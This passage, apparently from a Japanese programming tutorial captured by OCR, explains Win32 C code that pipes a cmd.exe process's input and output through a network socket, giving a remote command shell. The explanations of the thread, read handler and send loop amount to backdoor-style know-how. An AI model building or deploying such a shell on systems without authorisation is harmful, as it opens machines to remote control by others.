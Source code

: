     DWORD ThreID;
    if((Data->hThread = CreateThread(NULL, 0,
        OutputToSocket, (LPVOID)Data, 0, &ThreID)) == NULL){
            DWORD len;
            WriteFile(Data->fd_read, "exit\r\n", 6, &len, NULL);
            FlushFileBuffers(Data->fd_read);
            WaitForSingleObject(Data->PI.hProcess, 3000);
            CloseHandle(Data->PI.hProcess);
            CloseHandle(Data->fd_read);
            CloseHandle(Data->fd_write);
            return TRUE;
    }
    
    return FALSE;
}
-----

　スレッドの生成ですね。Data->ThreadFlagはOutputToSocket関数をみてくださ
い。OutputToSocketの終了を制御するフラグです。もしCreateThreadでエラーが
でたばあいはさっき作ったプロセスも終了させなければいけないので"exit"文字
列を送りcmd.exeを終了させています。

-----
case FD_READ:
    ReadConnect(&Data, hWnd);
    break;
-----

　FD_READは受信バッファにデータが溜まったときに実行されます。

-----
void ReadConnect(DATA *Data, HWND hWnd)
{
    char c;
    DWORD len;
    recv(Data->sock, &c, 1, 0);
    WriteFile(Data->fd_read, &c, 1, &len, NULL);
    FlushFileBuffers(Data->fd_read);

    return;
}
-----

　シンプルですね。受信バッファに溜まっているデータを１バイト読み込んで標
準入力に出力しています。

-----
DWORD WINAPI OutputToSocket(LPVOID lpvoid)
{
    DATA  *Data = (DATA *)lpvoid;

    DWORD len;
    char buf[1024];
    while(Data->ThreadFlag){
        if(ReadFile(Data->fd_write, &buf, sizeof(buf), &len, NULL) != FALSE){
            if(len > 0){
                send(Data->sock, buf, len, 0);
            }
        }    
    }
